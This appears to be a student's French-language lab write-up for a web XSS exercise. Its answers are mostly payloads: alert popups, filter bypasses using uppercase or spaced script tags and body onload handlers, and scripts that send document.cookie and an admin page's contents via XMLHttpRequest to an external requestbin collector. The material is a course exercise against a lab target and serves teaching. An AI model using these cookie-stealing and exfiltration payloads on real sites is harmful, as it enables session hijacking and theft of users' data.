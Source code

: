 # S7 : Vulnérabilité WEB -XSS

## Exercice 1 

### a) Alert Popup 

```javascript
<script>alert("I hacked you")</script>
```

### b) Document Cookies

```javascript
<script>console.log(document.cookie)</script>
```

### c) Mettre les balises en majuscule

```javascript
<SCRIPT>console.log(document.cookie)</SCRIPT>
```
```javascript
<SCRIPT>alert("I hacked you")</SCRIPT>
```
### d) utiliser des buttons avec event, en donnant du JS dans l'attribut onClick

```javascript
<SCRIPT >alert("I hacked you")</SCRIPT > // ajout d'espace dans les balises
```
```javascript
<SCRIPT >alert(document.cookie)</SCRIPT >
```

### e) utiliser des propriétés du type onLoad dans la balise body

```javascript
<body onload="alert(document.cookie)"></body>
```
```javascript
<body onload="alert('I hacked you')"></body>
```
## Exercice 2 

### a) Envoie des cookies à l'aide d'un objet XMLHttpRequest

```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```
```javascript
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);

```

### b)  Envoyez une balise script et s'envoyer le code qui s'execute sur la machine de l'admin
```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```

### c) Correct Utilisation de XMLHttpRequest + propriété onLoad
```javascript
<script>
var http1 = new XMLHttpRequest();
http1.open("GET", "https://labosecuipl.alwaysdata.net/21/s07/ex2b/profile/", true);

http1.onload = () => {
    var http = new XMLHttpRequest();
    http.open("POST", "https://requestbin.io/1i1r4xf1", true);
    http.send(http1.response)
}
http1.send();
</script>
```
```html
<p>
    Your secret is : 
    <span id="secret">
        BigBrother is watching you !Or is he ?
    </span>
</p>
```

